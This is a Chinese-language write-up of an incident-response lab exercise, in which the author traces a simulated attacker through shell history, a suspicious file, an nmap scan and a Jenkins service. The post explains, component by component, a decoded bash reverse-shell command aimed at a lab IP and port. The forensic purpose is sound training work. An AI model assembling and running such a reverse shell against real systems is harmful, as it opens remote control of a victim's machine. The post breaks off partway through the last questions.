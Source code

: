 ```yaml
---
title: 应急响应靶场-Easy溯源（知攻善防实验室）
date: 2025-02-18 16:06:02
tags: 渗透 靶场
top_img: transparent
---
```

在公众号知攻善防实验室里面下载了一些靶机。没有看题目要求就直接做让我吃尽苦头。一开始不知道登录密码 我就在想会不会这个也要我想办法去破解 于是前面一大半时间就在kali里面扫描和找漏洞 但歪打正着做出来第三四题。最后两题的话 

![title](/images/应急响应靶场-Easy溯源（知攻善防实验室）/title.png)

从第一道开始看吧 
## 第一道
第一道是问攻击者的内网跳板机ip 一开始是我是翻日志文件啥的查看蛛丝马迹。但我是没看出啥 看一下history 果真有一条命令在那里 是个base64的编码

![history](/images/应急响应靶场-Easy溯源（知攻善防实验室）/history.png)

解密之后发现是反向shell命令 通过网络与目标主机建立一个远程的命令行连接

![mingl](/images/应急响应靶场-Easy溯源（知攻善防实验室）/base.png)

```
bash -i是为了创建一个交互式的终端

>&：将标准输出和标准错误输出都重定向到一个指定的文件或设备。

/dev/tcp/192.168.11.129/1234:特殊路径 允许通过指定的 IP 地址（192.168.11.129）和端口（1234）建立 TCP 连接。

0>&1：这个部分将标准输入（stdin，0）重定向到标准输出（stdout，1）。意思是通过网络连接传入的输入会直接传递给 bash shell 执行。
```

那盲猜这个就是跳板机的ip了

## 第二问
问攻击者服务器的ip 
进入root用户的根目录能查看到一个很可疑的文件 进去就能查看到攻击者服务器的ip 

![server](/images/应急响应靶场-Easy溯源（知攻善防实验室）/server.png)

## 第三问&第四问
这个是最开始做的 当时是在kali的nmap中扫出来的 扫描到8080端口有问题 进去看发现有个flag

![nmap](/images/应急响应靶场-Easy溯源（知攻善防实验室）/nmap.png)

![jenkin](/images/应急响应靶场-Easy溯源（知攻善防实验室）/jenkins.png)

## 第五问&第六问
我用桌面上的password文件里面的网站 登录进去确实发现了邮箱和名字 但好像是个编码 输进去是错的